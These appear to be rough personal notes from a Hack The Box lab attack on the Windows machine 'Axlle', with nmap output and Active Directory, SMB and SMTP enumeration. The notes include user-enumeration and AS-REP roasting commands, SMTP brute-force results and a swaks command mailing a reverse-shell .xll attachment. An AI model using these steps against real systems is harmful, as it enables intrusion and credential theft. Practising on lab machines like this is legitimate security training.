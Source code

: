 ## Windows Machine - Axile

- [+]:	TargetIP
  >>	10.10.11.21
- [+]:	
  >>	
- [+]:	
  >>	
- [+]:	
  >>	
- [+]:	25/tcp open  smtp    hMailServer smtpd
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
  >>	
- [+]:	389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)

  >>	
- [+]:	88/tcp open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-06-23 01:26:52Z)
  >>	

sudo ldapsearch -H ldap://10.10.11.21 -x -b "DC=htb,DC=axile" '{}' | cut -d ' ' -f 2 | sort | uniq | cut -d ',' -f 1 > ~/Desktop/HackingLab/HackTheBox/Machines/Forest/Reports/new_users.txt 


   kerbrute userenum -d axlle.htb --dc axlle.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 
   
   impacket-GetNPUsers axlle.htb/ -usersfile users.txt -format hashcat -outputfile
## Recon
´´´
PORT      STATE SERVICE
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
60061/tcp open  unknown
60062/tcp open  unknown
60068/tcp open  unknown
60082/tcp open  unknown
61713/tcp open  unknown

´´´



smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.11.21

PORT     STATE SERVICE       VERSION
25/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 25
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Axlle Development
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-23 01:51:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=MAINFRAME.axlle.htb
| Not valid before: 2024-05-19T11:25:03
|_Not valid after:  2024-11-18T11:25:03
| rdp-ntlm-info: 
|   Target_Name: AXLLE
|   NetBIOS_Domain_Name: AXLLE
|   NetBIOS_Computer_Name: MAINFRAME
|   DNS_Domain_Name: axlle.htb
|   DNS_Computer_Name: MAINFRAME.axlle.htb
|   DNS_Tree_Name: axlle.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-23T01:51:58+00:00
|_ssl-date: 2024-06-23T01:52:38+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: MAINFRAME; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-23T01:51:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.95 seconds



cme smb 10.10.11.21 -u '' -p '' --shares
SMB         10.10.11.21     445    MAINFRAME        [*] Windows 10.0 Build 20348 x64 (name:MAINFRAME) (domain:axlle.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.21     445    MAINFRAME        [+] axlle.htb\: 
SMB         10.10.11.21     445    MAINFRAME        [-] Error enumerating shares: STATUS_ACCESS_DENIED


smbclient -L 10.10.11.21
Password for [WORKGROUP\parrot]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.21 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌─[parrot@parrot]─[~]
└──╼ $smbclient -m SMB2 -L 10.10.11.21

Password for [WORKGROUP\parrot]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.21 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available



nmap --script=smtp* -p25 10.10.11.21 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-23 02:45 BST
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 11.11% done; ETC: 02:46 (0:00:08 remaining)
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 11.11% done; ETC: 02:46 (0:00:08 remaining)
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 33.33% done; ETC: 02:46 (0:00:02 remaining)
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 28.57% done; ETC: 02:46 (0:00:05 remaining)
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 28.57% done; ETC: 02:46 (0:00:05 remaining)
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 35.71% done; ETC: 02:46 (0:00:04 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 35.71% done; ETC: 02:46 (0:00:04 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 35.71% done; ETC: 02:46 (0:00:04 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 35.71% done; ETC: 02:46 (0:00:05 remaining)
Stats: 0:03:30 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 02:58 (0:09:11 remaining)
Stats: 0:03:30 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 02:58 (0:09:14 remaining)
Stats: 0:03:30 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 02:58 (0:09:14 remaining)
Stats: 0:05:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 03:07 (0:15:21 remaining)
Stats: 0:05:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 03:07 (0:15:21 remaining)
Stats: 0:05:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 03:07 (0:15:21 remaining)
Stats: 0:05:51 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 03:07 (0:15:21 remaining)
Stats: 0:55:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 27.59% done; ETC: 06:06 (2:24:51 remaining)
NSE: [smtp-brute] usernames: Time limit 10m00s exceeded.
NSE: [smtp-brute] usernames: Time limit 10m00s exceeded.
NSE: [smtp-brute] passwords: Time limit 10m00s exceeded.
Nmap scan report for axile.htb (10.10.11.21)
Host is up (0.14s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
| smtp-enum-users: 
|   root
|   admin
|   administrator
|   webadmin
|   sysadmin
|   netadmin
|   guest
|   user
|   web
|_  test
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| smtp-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 27925 guesses in 3666 seconds, average tps: 7.2
|_smtp-open-relay: Server is an open relay (8/16 tests)


swaks from to accounts maybe can proc some revshell in data or attacj file

swaks --to accounts@axlle.htb --from accounts@axlle.htb --attach @/home/parrot/Desktop/HackingLab/HackTheBox/Machines/Axlle/rev.xll --header "Subject: Test Email" --body "Testing email to $user"
